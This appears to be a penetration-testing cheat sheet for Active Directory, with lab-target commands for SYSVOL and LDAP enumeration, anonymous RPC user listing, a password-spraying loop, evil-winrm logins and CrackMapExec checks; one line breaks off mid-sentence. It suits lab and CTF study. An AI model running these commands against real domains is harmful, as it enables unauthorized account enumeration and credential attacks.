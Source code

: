 # 🖥️ Active Directory

{% embed url="https://wadcoms.github.io/" %}

{% embed url="https://github.com/PowerShellMafia/PowerSploit" %}

{% embed url="https://github.com/61106960/adPEAS" %}

## DNS

{% code title="Kerberos" %}
```bash
dir \\za.tryhackme.com\SYSVOL
```
{% endcode %}

{% code title="NTLM" %}
```bash
dir \\<DC IP>\SYSVOL
```
{% endcode %}

To try to leak dns info:

```bash
nslookup
server <ip>
```

Powershell DNS config:

```powershell
$dnsip = "<DC IP>"
$index = Get-NetAdapter -Name 'Ethernet' | Select-Object -ExpandProperty 'ifIndex'
Set-DnsClientServerAddress -InterfaceIndex $index -ServerAddresses $dnsip
```

## LDAP(389)

```bash
ldapsearch -x -H ldap://<ip> -s base namingcontexts
```

Then use -b to select and then filter,etc ..

Ex:

{% code overflow="wrap" %}
```bash
ldapsearch -x -b "DC=htb,DC=local" -H ldap://10.10.10.161 'objectClass=Person' sAMAccountName
```
{% endcode %}

To use kerberos authentication:

```bash
kinit d.klay
```

{% code overflow="wrap" %}
```bash
ldapsearch -H ldap://dc.absolute.htb -s base -Y GSSAPI -b "cn=users,dc=absolute,dc=htb" "user" "description"
```
{% endcode %}

To get list of users:

{% code overflow="wrap" %}
```bash
ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))"  | grep sAMAccountName: | cut -f2 -d" "
```
{% endcode %}

```bash
./windapsearch.py --dc-ip 172.16.5.5 -u "" -U
```

EXAMPLES:

{% code overflow="wrap" %}
```bash
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "DC=<1_SUBDOMAIN>,DC=<TLD>"
```
{% endcode %}

{% code overflow="wrap" %}
```bash
ldapsearch  -D 'ldap@support.htb' -w 'password' -b "DC=support,DC=htb" -H ldap://support.htb
```
{% endcode %}

## RPC

```bash
rpcclient -U '' -N <ip>
```

Then can do multiple commands:

```
enumdomusers
```

If valid users list is present use this to password spray:

```bash
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done

```

## WinRM(5985)

```bash
evil-winrm -u user -p password -i <ip>
```

## SMB(445,139)

### CrackMapExec

To check password policy(from kali):

```bash
crackmapexec smb 10.10.10.161 --pass-pol -u '' -p ''
```

To get TGT hashes for users with

For enumeration as it handles proxied traffic better:

```bash
proxychains nmap -n -Pn -F -sV -sT -oA nmap_results -vvv -iL ${target or targets.txt} -T4 --max-retries 1 --max-rtt-timeout 2s --ttl 50ms --open 
```

To use kerberos authentication

{% code overflow="wrap" %}
```bash
KRB5CCNAME=svc_smb.ccache ./smbclient.py -k absolute.htb/svc_smb@dc.absolute.htb -target-ip 10.10.11.181
```
{% endcode %}

